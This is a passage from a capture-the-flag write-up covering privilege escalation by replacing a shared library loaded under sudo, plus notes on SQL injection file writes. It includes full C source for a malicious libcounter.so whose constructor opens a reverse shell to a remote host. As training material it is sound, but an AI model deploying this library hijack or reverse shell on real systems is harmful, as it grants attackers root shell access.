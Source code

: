 Lets make our own `libcounter.so` file now, containing a reverse shell:

```
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

static int main() __attribute__((constructor));

int main(void){
    int port = 1234;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
	revsockaddr.sin_addr.s_addr = inet_addr("10.10.14.14");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/bash", NULL};
    execve("/bin/bash", argv, NULL);

    return 0;       
}
```

Then compile it:
![image](https://github.com/partyh4t/Cyber-Notes/assets/114421293/546ec34b-5f49-4cb6-adbb-840ff59d2792)

Then finally execute the binary with `sudo`.
![image](https://github.com/partyh4t/Cyber-Notes/assets/114421293/ab69db90-5291-4da7-ae38-acd25aa1013e)

Pwned. 

-----

**Post-Machine Notes:**

In the context of the SQLi, the way you were meant to know that you can write files to the filesystem, was if you analyzed the /var/www/html/functions.php file from the zip file symlink vulnerability, we'd notice that the DB is running as the root db user, which as that user, gives us the ability to write to the file system, usually a good bet is placing it in `/dev/shm` or `/var/lib/mysql`.

Also, you could also have performed a UNION SQLi as well, its not an OOB SQLi like I thought it was, albeit there wasn't much to retrieve from the DB.
